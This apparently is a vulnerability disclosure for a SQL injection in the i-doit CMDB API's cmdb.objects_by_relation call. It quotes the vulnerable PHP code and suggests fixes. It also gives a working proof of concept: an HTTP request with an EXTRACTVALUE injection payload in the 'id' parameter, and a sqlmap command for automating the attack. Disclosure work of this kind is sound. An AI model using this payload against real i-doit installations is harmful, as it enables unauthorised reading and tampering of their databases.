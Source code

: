 

# CVE-2024-?

## Vulnerability Details:

- **CVSS Score:** 8.8 HIGH (CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

- **Affected Component:** [I-DOIT](https://www.i-doit.com)  API (cmdb.objects_by_relation.read call)

- **Vulnerability Type:** SQL Injection (SQLi)

- **Impact:** This vulnerability allows malicious actors to execute arbitrary SQL queries, potentially leading to data leakage, data manipulation, or even unauthorized access to sensitive information.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious SQL queries (boolean-based blind, boolean-based blind and time-based blind) and submitting them through the API requests.

- **Affected Versions:** [I-DOIT](https://www.i-doit.com)  > 1.7 (all versions)

- **Details:** The parameter ``` $p_params['id']``` in ``` /var/www/html/src/classes/modules/api/model/cmdb/isys_api_model_cmdb_objects_by_relation.class.php``` is not being sanitized. This means that user-supplied input is being used directly without any form of validation or sanitization, which increases the risk of SQL injection vulnerabilities.
  
  ```php
  public function read($p_params)
    {
        // Prepare return array.
        $l_return = [];

        // Prepare filters.
        $l_raw = (bool)$p_params['raw'];
        $l_id = (isset($p_params['id'])) ? $p_params['id'] : null;
        $l_relation_type = (isset($p_params['relation_type'])) ? $p_params['relation_type'] : null;

        // Validate status
        $this->validateStatus($p_params['status']);

        // Check if relation_type is a string constant.
        if (is_string($l_relation_type) && defined($l_relation_type)) {
            $l_relation_type = constant($l_relation_type);
        }

        if ($this->useAuth) {
            isys_auth_cmdb::instance()
                ->check_rights_obj_and_category(isys_auth::VIEW, $l_id, 'C__CATG__RELATION');
        }

        if (!$l_id) {
            throw new isys_exception_api('No object id given. Specify parameter "id" in order to filter objects by relation.');
        }

        // Start looking for objects.
        $l_dao = new isys_cmdb_dao_category_g_relation($this->m_db);
        $l_data = $l_dao->get_related_objects($l_id, $l_relation_type, $p_params['status']);

        // Iterate through result set.
        while ($l_row = $l_data->get_row()) {
            // Fetch more information about the related object:
            $l_related = $this->m_dao->get_object_by_id($l_row['related'])
                ->get_row();

            $l_row['related_title'] = $l_related['isys_obj__title'];
            $l_row['related_type'] = $l_related['isys_obj_type__id'];
            $l_row['related_type_title'] = $l_related['isys_obj_type__title'];
            $l_row['related_cmdb_status_id'] = $l_related['isys_cmdb_status__id'];
            $l_row['related_cmdb_status_title'] = $l_related['isys_cmdb_status__title'];

            $l_key = $l_row['isys_obj__id'];

            if (!$l_raw) {
                $l_row = $this->format_by_mapping($this->m_mapping, $l_row);
            }

            $l_value = [
                'data'     => $l_row,
                'children' => false
            ];

            $l_return[$l_key] = $l_value;
        }

        return $l_return;
    }
  ```

  This unsanitized input is then passed to the get_related_objects function in ```/var/www/html/src/classes/modules/cmdb/dao/category/global/isys_cmdb_dao_category_g_relation_.class.php```. This function constructs and executes SQL queries using the supplied parameter without proper sanitization or parameterization.

  ```php
  public function get_related_objects($p_parent_object, $p_relation_type = null, $status = null)
    {
        $l_sql = "SELECT
            relation_object.isys_obj__id,
            relation_object.isys_obj__title,
            isys_obj_type__id,
            isys_obj_type__title,
            isys_catg_relation_list__isys_obj__id__master,
            isys_catg_relation_list__isys_obj__id__slave,
            isys_catg_relation_list__isys_obj__id,
            CASE isys_catg_relation_list__isys_obj__id__master WHEN '" . $p_parent_object . "' THEN isys_catg_relation_list__isys_obj__id__slave
            ELSE isys_catg_relation_list__isys_obj__id__master END AS related
            FROM isys_catg_relation_list
            INNER JOIN isys_obj relation_object ON relation_object.isys_obj__id = isys_catg_relation_list__isys_obj__id
            INNER JOIN isys_obj_type ON isys_obj__isys_obj_type__id = isys_obj_type__id";

        // Additional joins for requesting object statuses
        if (!empty($status)) {
            $l_sql .= " INNER JOIN isys_obj relatedObject ON relatedObject.isys_obj__id = CASE isys_catg_relation_list__isys_obj__id__master WHEN '" . $p_parent_object . "'
                                                                                          THEN isys_catg_relation_list__isys_obj__id__slave
                                                                                          ELSE isys_catg_relation_list__isys_obj__id__master END
                        INNER JOIN isys_obj parentObject ON parentObject.isys_obj__id = " . $this->convert_sql_id($p_parent_object);
        }

        $l_sql .= " WHERE (isys_catg_relation_list__isys_obj__id__master = " . $this->convert_sql_id($p_parent_object) . "
                OR isys_catg_relation_list__isys_obj__id__slave = " . $this->convert_sql_id($p_parent_object) . ")";

        if (!is_null($p_relation_type)) {
            if (is_array($p_relation_type)) {
                $l_sql .= " AND isys_catg_relation_list__isys_relation_type__id " . $this->prepare_in_condition($p_relation_type);
            } else {
                $l_sql .= " AND isys_catg_relation_list__isys_relation_type__id = " . $this->convert_sql_id($p_relation_type);
            }
        }

        // Add status condition
        if (!empty($status)) {
            $status = $this->convert_sql_id($status);

            $l_sql .= ' AND (relation_object.isys_obj__status    = ' . $status . ')';
        }

        $l_sql .= " GROUP BY related;";

        return $this->retrieve($l_sql);
    }
  ```

  - **Mitigation:** Immediate action is recommended to address this issue. Implementing input validation and parameterized queries can help mitigate the risk of SQL Injection attacks. Additionally, conducting a thorough security audit of the entire codebase is advised to identify and address any other potential vulnerabilities.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
POST /src/jsonrpc.php HTTP/1.1
Host: 192.168.1.46
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0st75tilh4l5t5mhefj1gvu4om
Connection: close
Content-Type: application/json
Content-Length: 207

}
  "version": "2.0",
  "method": "cmdb.objects_by_relation",
  "params": {
    "status": 2,
    "id": "62' AND EXTRACTVALUE(5216,CONCAT(0x5c,0x717a717a71,(SELECT (ELT(5216=5216,1))),0x7178767171)) AND 'owRH'='owRH",
    "raw": false,
    "apikey": "e5368jggdb4k4s44",
    "language": "en"
  },
  "id": 1
}
```

To automate these process is it possible use ```sqlmap```.

```bash
sqlmap --random-agent --level 5 --risk 3 -r id.req --banner 
```


![image](https://github.com/offensive-security-pwncat/CVE/blob/main/SQLi/img/022024.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the SQL Injection vulnerability in the affected API endpoint.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing SQL Injection vulnerabilities.
